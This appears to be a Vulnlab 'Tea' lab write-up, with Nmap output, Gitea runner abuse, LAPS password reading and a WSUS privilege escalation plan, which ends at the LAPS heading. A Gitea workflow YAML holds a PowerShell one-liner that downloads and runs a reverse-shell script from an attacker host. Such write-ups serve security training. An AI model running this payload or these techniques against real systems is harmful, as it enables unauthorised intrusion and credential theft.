| Chain Name | Difficulty | Date Started | Date Completed |
| ---------- | ---------- | ------------ | -------------- |
| Tea        | Medium     | 12/01/2025   | 12/01/2025     |
*Vulnlab.com* 

---

Learning Points:  
- Abusing Gitea runner to gain command execution  
- Retrieving the LAPS password from Windows PowerShell  
- Using [SharpWSUS](https://github.com/techspence/SharpWSUS) to exploit a domain controller from a Windows Update server (WSUS service) by sending malicious updates

---

Attack Path:  
- Found that HostB was running a GitTea instance on port 3000.  
- Created a user in GitTea, made a repository, and enabled Actions.  
- Created a malicious YAML file, pushed the update, and gained a shell as a user on HostB.  
- Retrieved the local administrator password by reading the LAPS password.  
- Exploited the WSUS service using the [SharpWSUS](https://github.com/techspence/SharpWSUS) tool to create and add a malicious user account to the administrators group on HostA (DC) as a malicious update and approved it.  
- Logged into HostA and retrieved the remaining flag, fully compromising the machine.

---


Activity Log:  
- Enumerated both hosts' shares as null sessions but failed to retrieve anything.  
- Ran enum4linux to enumerate all possible information on both hosts but couldn't find anything.  
- While enumerating port 3000 of Host B, we discovered a running GitTea instance.  
- We couldn't find any repositories or related data, so we registered an account to enumerate further.  
- Still, we couldn't find anything.  
- We confirmed that GitTea was running version 1.21.2, which did not have any public exploits at the time.  
- Under user settings, under `Actions`, we found one active runner.  
- To abuse this runner, we had to first create a repository and enable `Actions`.  
- Created a `.gitea/workflows/demo.yaml` file in the repository we had created.  
- Putting the base64 encoded reverse shell didn't work as it resulted in errors, so we manually hosted the payload in a `shell.ps1` file, hosted it on Falcon, and used a PowerShell one-liner to download and execute it on the box.  
- We were able to get a shell as the `thomas.wallace` user on the `srv` host and retrieved the Tea_User-1 flag.  
- Using that shell, we uploaded a meterpreter payload, executed it to stabilize the shell, then uploaded SharpHound.exe to map the AD network and enumerate later using BloodHound.  
- We downloaded the zip file to Falcon after the collection was finished.  
- We couldn't find any paths to domain admins from the BloodHound graph; however, we were able to see that our user was a member of the `SERVER ADMINISTRATION` group.  
- We also discovered an `_install` folder containing the LAPS (Local Administrator Password Solution) installer.  
- We attempted to read LAPS on the SRV host as this user belonged to the Server Administrator group. According to [documentation](https://learn.microsoft.com/en-us/powershell/module/laps/get-lapsadpassword?view=windowsserver2022-ps), we used `Get-LapsADPassword` to retrieve the clear-text password of the local administrator on SRV.  
- We confirmed the credentials were working using CrackMapExec.  
- We knew that WSUS was installed, which is a solution for deploying Windows updates to systems in a domain.  
- We used [SharpWSUS](https://github.com/techspence/SharpWSUS) to perform further attacks.  
- We could deploy malicious updates to the DC, such as adding our own user to become part of the domain admins. First, we had to create a domain user.  
- We approved the update.  
- We added this user to the local administrators group on the DC.  
- We approved the update.  
- We had to run the command multiple times and approve it to add the destiny users to the local admin group.  
- We were able to log in to the machine using the created user and evil-winrm to retrieve the other flags.

---

| Host   | Host Name  | IP Address    | Status  |
| ------ | ---------- | ------------- | ------- |
| Host A | dc.tea.vl  | 10.10.169.181 | Changed |
| Host B | srv.tea.vl | 10.10.169.182 | Changed |

*Host A Default Nmap scan :*
```
# Nmap 7.94SVN scan initiated Sat Jan 11 22:44:11 2025 as: nmap -sC -sV -oA HostA -Pn 10.10.136.21
Nmap scan report for 10.10.136.21
Host is up (0.20s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-11 17:14:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: tea.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: TEA
|   NetBIOS_Domain_Name: TEA
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: tea.vl
|   DNS_Computer_Name: DC.tea.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-11T17:14:40+00:00
| ssl-cert: Subject: commonName=DC.tea.vl
| Not valid before: 2025-01-10T17:09:55
|_Not valid after:  2025-07-12T17:09:55
|_ssl-date: 2025-01-11T17:15:20+00:00; 0s from scanner time.
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-11T17:14:41
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 11 22:45:26 2025 -- 1 IP address (1 host up) scanned in 75.36 seconds
```

*Host B Default Nmap scan :*
```
# Nmap 7.94SVN scan initiated Sat Jan 11 22:47:04 2025 as: nmap -sC -sV -oA HostB -Pn 10.10.136.22
Nmap scan report for 10.10.136.22
Host is up (0.21s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=a488e8fc65bb272b; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=TunWPnMVyhr4dd4vavlv7ifKj046MTczNjYxNTg0MzQ4MDE4ODYwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 11 Jan 2025 17:17:23 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL3Nydi50ZWEudmw6MzAwMC8iLCJpY29ucyI6W3sic3JjIjoiaHR0cDovL3Nydi50ZWEudmw6MzAwMC9hc3NldHMvaW1nL2xvZ28ucG5nIiwidHlwZSI6ImltYWdlL3BuZyIsInNpemVzIjo
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=da2b17973514f555; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=YCKjiMillcGXwExQy8bT1WEBCGQ6MTczNjYxNTg0OTUyODQwNzQwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 11 Jan 2025 17:17:29 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=SRV.tea.vl
| Not valid before: 2025-01-10T17:09:46
|_Not valid after:  2025-07-12T17:09:46
|_ssl-date: 2025-01-11T17:19:32+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TEA
|   NetBIOS_Domain_Name: TEA
|   NetBIOS_Computer_Name: SRV
|   DNS_Domain_Name: tea.vl
|   DNS_Computer_Name: SRV.tea.vl
|   DNS_Tree_Name: tea.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-11T17:18:52+00:00
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=1/11%Time=6782A7A4%P=aarch64-unknown-linux
SF:-gnu%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400
SF:\x20Bad\x20Request")%r(GetRequest,2E58,"HTTP/1\.0\x20200\x20OK\r\nCache
SF:-Control:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_li
SF:ke_gitea=a488e8fc65bb272b;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nS
SF:et-Cookie:\x20_csrf=TunWPnMVyhr4dd4vavlv7ifKj046MTczNjYxNTg0MzQ4MDE4ODY
SF:wMA;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Fra
SF:me-Options:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2011\x20Jan\x202025\x2017:1
SF:7:23\x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class
SF:=\"theme-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"wid
SF:th=device-width,\x20initial-scale=1\">\n\t<title>Gitea:\x20Git\x20with\
SF:x20a\x20cup\x20of\x20tea</title>\n\t<link\x20rel=\"manifest\"\x20href=\
SF:"data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwI
SF:G9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwi
SF:c3RhcnRfdXJsIjoiaHR0cDovL3Nydi50ZWEudmw6MzAwMC8iLCJpY29ucyI6W3sic3JjIjo
SF:iaHR0cDovL3Nydi50ZWEudmw6MzAwMC9hc3NldHMvaW1nL2xvZ28ucG5nIiwidHlwZSI6Im
SF:ltYWdlL3BuZyIsInNpemVzIjo")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20c
SF:lose\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,1A4,"HTTP/1\.0\x20405
SF:\x20Method\x20Not\x20Allowed\r\nAllow:\x20HEAD\r\nAllow:\x20HEAD\r\nAll
SF:ow:\x20GET\r\nCache-Control:\x20max-age=0,\x20private,\x20must-revalida
SF:te,\x20no-transform\r\nSet-Cookie:\x20i_like_gitea=da2b17973514f555;\x2
SF:0Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie:\x20_csrf=YCKjiMill
SF:cGXwExQy8bT1WEBCGQ6MTczNjYxNTg0OTUyODQwNzQwMA;\x20Path=/;\x20Max-Age=86
SF:400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\n
SF:Date:\x20Sat,\x2011\x20Jan\x202025\x2017:17:29\x20GMT\r\nContent-Length
SF::\x200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close
SF:\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-11T17:18:56
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 11 22:49:34 2025 -- 1 IP address (1 host up) scanned in 150.53 seconds
```

Enumerated both hosts' shares as null sessions but failed to retrieve anything.



We also ran enum4linux to enumerate all possible information on both hosts but couldn't find anything.

While enumerating port 3000 of Host B, we were able to find a running GitTea instance.



We couldn't find any repositories or related data, so we registered an account to enumerate further.



We still couldn't find anything.



### Abusing Gitea Runner

We also confirmed that it was running GitTea version 1.21.2, which did not have any public exploits at the time.

From the user settings under `Actions`, we found one active runner.



To abuse this runner, we first needed to create a repository and enable `Actions`.



We then created a `.gitea/workflows/demo.yaml` file in the repository that we had created.



Putting the base64-encoded reverse shell didn't work as it gave errors, so we manually hosted the payload in a `shell.ps1` file on Falcon and used a PowerShell one-liner to download and execute it on the box.



```yaml
name: Build
run-name: ${{ gitea.actor }} is testing out Gitea Actions
on: [push]
jobs:
  Shell:
    runs-on: windows-latest
    steps:
    - name: shell
      run: powershell -nop -c "IEX (New-Object Net.WebClient).DownloadString('http://10.8.4.157/shell.ps1')"
```

We were able to get a shell as the `thomas.wallace` user on the `srv` host and retrieve the Tea_User-1 flag.


Using that shell, we uploaded a Meterpreter payload and executed it to stabilize our shell. Then, we uploaded SharpHound.exe to map the AD network and enumerate it later using BloodHound.



We downloaded the zip file to Falcon after the collection was finished.



We couldn't find any paths to domain admins in the BloodHound graph; however, we were able to see that our user was a member of the `SERVER ADMINISTRATION` group.



##### Reading LAPS on SRV

We also found an `_install` folder containing the LAPS (Local Administrator Password Solution) installer.

